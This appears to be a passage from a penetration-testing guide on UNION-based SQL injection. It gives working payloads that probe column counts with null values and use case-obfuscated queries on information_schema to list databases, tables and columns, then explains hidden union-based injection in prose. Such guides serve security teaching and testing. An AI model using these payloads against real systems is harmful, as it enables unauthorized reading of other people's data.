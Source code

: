 <br>

### UNION SELECT
---

Select more and more null values until the query is correct:

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

_You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case._

<br>

### Extract database names, table names and column names
---

On the next examples we are going to retrieve the name of all the databases, the table name of a database, the column names of the table:

```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

_There is a different way to discover this data on every different database, but it's always the same methodology._

## Exploiting Hidden Union Based
---

When the output of a query is visible, but a union-based injection seems unachievable, it signifies the presence of a **hidden union-based injection**. This scenario often leads to a blind injection situation. To transform a blind injection into a union-based one, the execution query on the backend needs to be discerned.

This can be accomplished through the use of blind injection techniques alongside the default tables specific to your target Database Management System (DBMS). For understanding these default tables, consulting the documentation of the target DBMS is advised.

Once the query has been extracted, it's necessary to tailor your payload to safely close the original query. Subsequently, a union query is appended to your payload, facilitating the exploitation of the newly accessible union-based injection.
